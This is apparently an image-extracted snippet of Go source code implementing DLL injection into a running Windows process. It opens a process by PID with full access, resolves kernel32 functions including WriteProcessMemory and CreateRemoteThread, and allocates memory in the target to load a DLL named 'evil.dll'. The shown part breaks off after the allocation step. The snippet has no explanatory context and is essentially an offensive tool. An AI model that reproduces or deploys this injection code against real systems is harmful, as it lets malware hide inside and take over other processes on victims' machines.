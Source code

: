 ```go  
	MEM_RELEASE               = 0x8000
	PROCESS_ALL_ACCESS        = PROCESS_QUERY_INFORMATION | PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD
)

var (
	targetDll          = "C:\\\\evil.dll"
	dllLength          = len(targetDll)
	kernel32           = syscall.NewLazyDLL("kernel32.dll")
	loadLibraryA       = kernel32.NewProc("LoadLibraryA")
	openProcess        = kernel32.NewProc("OpenProcess")
	writeProcessMemory = kernel32.NewProc("WriteProcessMemory")
	createRemoteThread = kernel32.NewProc("CreateRemoteThread")
	closeHandle        = kernel32.NewProc("CloseHandle")
	virtualAllocEx     = kernel32.NewProc("VirtualAllocEx")
	virtualFreeEx      = kernel32.NewProc("VirtualFreeEx")
)

func main() {
	// parse process ID
	if len(os.Args) < 2 {
		fmt.Println("PID not found :( exiting...")
		return
	}
	pid, err := strconv.Atoi(os.Args[1])
	if err != nil {
		fmt.Println("Invalid PID:", os.Args[1])
		return
	}
	fmt.Printf("PID: %d\n", pid)

	// open process
	ph, op2, err := openProcess.Call(PROCESS_ALL_ACCESS, FALSE, uintptr(pid))
	if err != nil {
		fmt.Println("Results of openProcess:", err)
	}

	if ph == 0 {
		fmt.Println("Failed to open process")
		return
	}
	fmt.Println("Process handle:", ph)
	fmt.Println(op2)
	defer closeHandle.Call(ph)

	rb, va2, err := virtualAllocEx.Call(
		uintptr(ph),
		0,
		uintptr(uintptr(dllLength)),
		uintptr(MEM_RESERVE|MEM_COMMIT),
		uintptr(PAGE_READ_WRITE),
	)
	if err != nil {
		fmt.Println("Results of virtualAllocEx:", err)
	}

	if rb == 0 {
		fmt.Println("Failed to allocate memory")
		return
	}
	fmt.Println(rb)
	fmt.Println(va2)
	defer virtualFreeEx.Call(rb, 0, MEM_RELEASE)
```